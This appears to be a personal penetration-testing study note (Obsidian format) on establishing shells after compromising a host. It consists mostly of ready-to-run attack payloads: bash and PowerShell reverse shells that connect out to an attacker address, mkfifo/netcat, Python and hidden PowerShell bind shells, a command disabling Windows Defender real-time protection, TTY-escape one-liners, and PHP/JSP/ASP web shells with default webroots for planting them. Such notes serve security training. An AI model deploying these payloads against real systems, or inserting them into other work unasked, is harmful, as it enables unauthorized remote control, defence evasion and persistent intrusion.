 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Once a host has been compromised and we have RCE, setting up some form of persistent communication is a key part of [[5 - Post-Exploitation]].

**Linux:**
Some useful considerations before establishing a shell session:
- What distribution is on the system?
- What shell & programming languages are on the system?
- What is the purpose and function of the system in its network environment?
- What applications is the system hosting?
- Are there any known vulnerabilities?

## Types of Shells
### Reverse Shell
Connects back to our system and gives us control through a reverse connection. We setup a listener on our machine and then connect back to it from the target.
![[Netcat (nc)#Create a listener]]

Connecting back to our system with a shell is slightly more complex as it depends what we have available. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shells.

**Bash**
```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'
```

**Netcat**
![[Netcat (nc)#Create a simple reverse shell]]

**Powershell via CMD**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
> Sometimes we might be able to disable Windows defender Virus & Threat protection, allowing us to run the above:
> `Set-MpPreference -DisableRealtimeMonitoring $true`
> A script version of a similar process is available [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

> 1. `powershell -nop -c` creates a no profile (`nop`) and executes the following code (`-c`)
> 2. `$client = New-Object System.Net.Sockets.TCPClient('<ip>', <port>);` First we connect to a TCP socket and set it as the client
> 3. `$client.GetStream();` Now open the stream with `GetStream`
> 4. `[byte[]]$bytes = 0..65535|%{0};` Create an empty byte stream to send to our TCP listener
> 5. `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)` starts a loop to read through the bytes buffer
> 6. `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);` This encodes the bytes buffer into ASCII characters
> 7. `$sendback = (iex $data 2>&1 | Out-String );` invokes the data and redirects its output to be turned from an object to a string
> 8. `$sb2 = $sb + 'PS ' + (pwd).Path + '> ';` this creates the prompt on the end of the data
> 9. `$sendbyte ...;$s.Write(...);$s.Flush(...)};` creates the final encoded byte stream that we will send via the TCP socket
> 10. `$client.Close()"` will close the connection at the end when its terminated

## Bind Shells
Unlike a reverse shell, a Bind shell connects us to the *targets'* listening port. This means we are connecting to the target rather than them connecting to us (the opposite direction to a RS).

To create a bind shell, we need to listen on a port on the target and bind a shell to that port. Then on the tester machine we can us [[Netcat (nc)]] to connect to it.

Some challenges with bind shells however:
- We need an already active listener or be able to create one ourselves.
- It is typical for strict incoming firewall rules and NAT on the edge of the network (public-facing), so we would need to be on the internal network already.
- OS firewalls often block incoming connections that aren't associated with trusted network-based applications.

To setup a bind shell on the server, we need to define:
- the directory
- the shell
- the listener
- a pipeline (eg. a named pipe) : *a file that can be written and read by multiple processes*
- input & output redirection

**Bash**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lv 1234 >/tmp/f
```
> 1. Remove any existing `/tmp/f`
> 2. Create a named pipe at `/tmp/f` with `mkfifo`
> 3. Read input from `/tmp/f` with `cat`
> 4. Spawn an interactive bash shell with errors being redirected to stdout
> 5. Start a `nc` listener that writes to `/tmp/f`
> With this, any commands sent via the nc connection are written and then read from `/tmp/f`, executed and output is returned back down the connection.

**Python**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## Upgrading TTY
To give us more terminal features (eg. a prompt, mouse, history, etc) we need to upgrade the TTY. Often when creating a shell via an application user eg. `apache`, no shell interpreter language has been defined in the environment variables for that user. This means that we need to spawn our own TTY to gain these functionalities.
### Python
```shell
python -c 'import pty; pty.spawn("/bin/sh")'
```
```shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
### Interactive
```shell
/bin/sh -i
/bin/bash -i
```
### Perl
```shell
perl -e 'exec "/bin/sh";'
```
```perl
# Run inside a ruby script
exec "/bin/sh";
```
### Ruby
```shell
ruby -e 'exec "/bin/sh"'
```
```ruby
# Run inside a ruby script
exec "/bin/sh"
```
### Lua
```lua
os.execute('/bin/sh')
```
### AWK
```shell
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```shell
# If it finds the file, then it will execute a shell
find / -name [file_name] -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit
```
### VIM
```shell
vim -c ':!/bin/sh'
```
```shell
# VIM escape
vim
:set shell=/bin/sh
:shell
```

## Web Shells
This is a web script that accepts commands through HTTP params, executes the command and returns the output. There are two components to using these: Uploading the web shell and executing the shell.

A great benefit of these kind of shells is that they utilise the existing connection that would be allowed through a firewall.

A really useful project for webshells is [Laudanum Webshells](https://github.com/jbarcia/Web-Shells/tree/master/laudanum). This contains a variety of webshells that can be injected through various means.
Additionally to this, the `Antak` webshell in the [Nishang project](https://github.com/samratashok/nishang) is a very powerful *PowerShell* webshell, it has a variety of features such as running scripts from memory and encoding commands.
### Writing a web shell
Web shells tend to be simple one line commands that take a command and execute them on the system. The following examples are all *GET* requests:

**PHP**
```
<?php system($_REQUEST["cmd"]); ?>
```

**JSP**
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP**
```
<% eval request("cmd") %>
```

### Uploading the web shell
We need to get our web shell script into the web root to be able to execute it. This can either be through a file upload vulnerability, or even an RCE could let us write the file on the target system ourself.

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | c:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

